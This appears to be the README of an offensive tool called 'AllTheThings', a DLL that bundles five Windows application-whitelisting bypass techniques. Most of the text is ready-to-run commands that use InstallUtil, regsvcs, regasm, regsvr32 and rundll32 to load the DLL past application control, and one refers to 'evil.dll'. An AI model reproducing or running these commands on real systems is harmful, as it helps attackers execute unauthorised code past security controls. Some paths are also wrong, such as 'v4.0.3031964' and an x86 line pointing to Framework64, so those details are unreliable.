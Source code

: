 # AllTheThings
Includes 5 Known Application Whitelisting/ Applicaoitn Control Bypass Techiniques in One File.


Includes 5 Known Application Whitelisting/ Applicaoitn Control Bypass Techiniques in One File.
1. InstallUtil.exe

2. Regasm.exe

3. Regsvcs.exe

4. regsvr32.exe . 

5. rundll32.exe



Usage:
1. 

    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll

    x64 - C:\Windows\Microsoft.NET\Framework\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
2. 

    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll
3. 

    x86 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

4. 

    regsvr32 /s  /u evil.dll -->Calls DllUnregisterServer

    regsvr32 /s evil.dll --> Calls DllRegisterServer
    
5. 

    rundll32 AllTheThings.dll,EntryPoint
